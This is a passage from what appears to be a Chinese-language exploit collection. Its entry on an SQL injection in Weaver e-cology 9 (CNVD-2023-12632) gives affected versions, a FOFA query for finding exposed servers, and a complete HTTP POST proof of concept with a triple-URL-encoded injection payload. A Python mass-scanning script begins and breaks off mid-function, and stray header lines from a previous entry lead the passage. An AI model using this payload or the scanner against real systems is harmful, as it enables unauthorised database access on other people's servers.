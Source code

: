 Host: 127.0.0.1:7443  
  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,like Gecko)  
  
Accept-Encoding: gzip, deflate  
  
Connection: close  
### 2.1.8泛微e-cology9_SQL注入-CNVD-2023-12632  
  
1.影响版本  
  
泛微e-cology V9<10.56  
  
2.fofa  
  
app="泛微-协同商务系统"  
  
3.poc  
```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 649

isDis=1&browserTypeId=269&keyword=%25%32%35%25%33%36%25%33%31%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%36%32%25%32%35%25%33%32%25%33%38%25%32%35%25%33%35%25%33%33%25%32%35%25%33%34%25%33%35%25%32%35%25%33%34%25%36%33%25%32%35%25%33%34%25%33%35%25%32%35%25%33%34%25%33%33%25%32%35%25%33%35%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%30%25%32%35%25%33%34%25%33%30%25%32%35%25%33%35%25%33%36%25%32%35%25%33%34%25%33%35%25%32%35%25%33%35%25%33%32%25%32%35%25%33%35%25%33%33%25%32%35%25%33%34%25%33%39%25%32%35%25%33%34%25%36%36%25%32%35%25%33%34%25%36%35%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%36%32%25%32%35%25%33%32%25%33%37
```  
  
payload需要经过三次url编码，文末附tamper脚本地址  
  
4.  
批量检测脚本  
```
import argparse
import requests
from termcolor import colored
import signal

# Disable SSL certificate verification
requests.packages.urllib3.disable_warnings()

output_file = None  # 全局变量


def check_url(url, output=None):
    headers = {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    }
    proxies = {
        'http': 'http://127.0.0.1:8080',
        'https': 'http://127.0.0.1:8080'
    }
```